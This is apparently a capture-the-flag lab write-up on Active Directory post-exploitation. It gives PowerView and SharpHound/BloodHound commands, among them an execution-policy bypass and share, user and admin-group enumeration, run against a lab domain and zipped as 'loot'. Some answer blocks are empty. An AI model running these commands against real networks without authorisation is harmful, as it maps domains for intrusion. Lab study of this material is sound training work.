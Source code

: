 # Post-Exploitation Basics

## :eye: Powerview

```
powershell -ep bypass
. .\Downloads\PowerView.ps1
Get_NetGroup | select -GroupName *admin*
```

### #1 **What is the shared folder that is not set by default?**

```
Invoke-ShareFinder
```

![](<../../.gitbook/assets/Screenshot from 2020-08-28 17-45-20.png>)

### #2 **What operating system is running inside of the network besides Windows Server 2019?**

```
Get-NetComputer -fulldata | select operatingsystem
```

![](<../../.gitbook/assets/Screenshot from 2020-08-28 17-44-54.png>)

### **#3 I've hidden a flag inside of the users find it**

```
Get-NetUser | select cn
```

![](<../../.gitbook/assets/Screenshot from 2020-08-28 17-43-49.png>)

## :dog: Bloodhound

```
powershell -ep bypass
. .\Downloads\SharpHound.ps1
Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip
```

### #1 **What service is also a domain admin**

```
```

### #2 **What two users are Kerberoastable?**

```
```

## :link: Support Material

{% embed url="https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-with-bloodhound-on-kali-linux" %}



